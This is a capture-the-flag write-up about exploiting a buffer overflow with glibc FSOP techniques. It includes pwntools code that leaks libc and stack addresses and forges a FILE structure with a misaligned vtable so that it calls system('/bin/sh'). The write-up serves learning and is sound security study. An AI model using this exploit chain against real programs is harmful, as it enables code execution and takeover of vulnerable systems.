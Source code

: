 This challenge was tough since I have not really touched on anything FSOP related outside of House of Orange, but it was for sure a great learning experience. I will say this out of the gate, I did not solve this challenge during the CTF but instead I continued to work on it for over the course of two weeks since to be honest there was a lot to learn.

To first understand how to solve this challenge, I will have to explain what file structures are. From what I understand and what I learned through debugging the heap memory, file structures are mostly here so whatever changes I do to the file that I wish to open will happen in heap memory first and once you call `fclose()` on the file pointer, then it will write to the disk. This is done because in C they legit only care about speed and nothing else, so that is good for us.

Now how FSOP works takes advantage of the `__IO_FILE_plus` struct that is used when working with file structures. The struct looks like this:

``` c
struct _IO_FILE_plus
{
  FILE file;
  const struct _IO_jump_t *vtable;
};
```

The real point of focus is the `vtable` at the end. Luckily, I already knew what a `vtable` was thanks to one of the challenges in the [pwnable.kr](pwnable.kr) website that I solved a little while back. In that challenge, from what I remember, I had to exploit a use-after-free bug in a C++ program that used objects. The way `vtables` are used in C++ is basically a lookup table for functions for each object, so for example multiple instances of a class will actually end up calling the same function addresses. And in this case the `vtable` pointer is the same way. Only problem though (and why the House of Orange only works on GLIBC 2.23 and below), the `vtable` pointer has to be within some adresses. Because of that, we cannot create our own `vtable` and instead we must play around with misaligning the vtable that we have and to try to find something that is modifyable by using [Angry FSROP](https://blog.kylebot.net/2022/10/22/angry-FSROP/). Also here is the layout of the `_IO_FILE` structure for future reference (since this will show up in the heap):

``` c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

Now with this knowledge, we will be able to solve this challenge. Also I took these structures from [here](https://niftic.ca/posts/fsop/).

The challenge calls `fread()` and `fwrite()` on different options and has an obvious buffer overflow that will let us overwrite both file structures for the read and write. Also everything is green except for PIE, so what I did was leak LIBC by reading the address of `stdout` in the `.bss` region by changing the pointer of the read file structure. I also leaked the stack but I didn't need it:

``` python
    leak = read_addr(io, 0x404010)
    libc = int.from_bytes(leak, "little") - l.sym["_IO_2_1_stdout_"] 

    print(f"============= Libc leak: {hex(libc)}")
    
    leak = read_addr(io, l.sym["environ"] + libc)
    stack = int.from_bytes(leak, "little") 

    print(f"============= Stack leak: {hex(stack)}")
```

Next I  overwrote (is that how you say it??) the write file structure to point to libc's `_IO_2_1_stdout_`:

``` python
    # buf base and buf end overflow on the write stream 
    payload = b"A"*0x28 + p64(0x1e1) + b"B"*0x1d8 + p64(0x1e1) 
    #payload = b"A" * 0x208 + p64(0x1e1)
    payload += p64(0xfbad2c84)
    payload += p64(l.sym["_IO_2_1_stdout_"] + libc)
    payload += p64(0) * 5
    payload += p64(l.sym["_IO_2_1_stdout_"] + libc)
    payload += p64(l.sym["_IO_2_1_stdout_"] + libc + 0x200)
    
    write_script(io, b"balls")
    set_name(io, payload)
```

Then I created a fake file structure while changing the `vtable` pointer to what angry-fsrop said:
``` python 
# create a fake file struct to use when calling the write stream
    file = FileStructure(0)
    file.flags = 0x3b01010101010101
    file._IO_read_end = l.sym["system"] + libc
    file._IO_save_base = libc + 0x163830 # one gadget
    file._IO_write_end = u64(b"/bin/sh\x00")
    file._lock = libc + 0x21ba70
    file._codecvt = l.sym["_IO_2_1_stdout_"] + libc + 0xb8
    file._wide_data = l.sym["_IO_2_1_stdout_"] + libc + 0x200
    
    # modify the address of the vtable
    file.unknown2 = p64(0)*2 + p64(l.sym["_IO_2_1_stdout_"] + libc + 0x20) + p64(0)*3 + p64(l.sym["_IO_wfile_jumps"] + libc - 0x18) 

    #write_script(io, bytes(file))
    sla(io, b"Choice:", b"2")
    io.sendline(bytes(file))
```

And just like that, I have shell!!!! (WOOHOO, this was a pain!!!!)
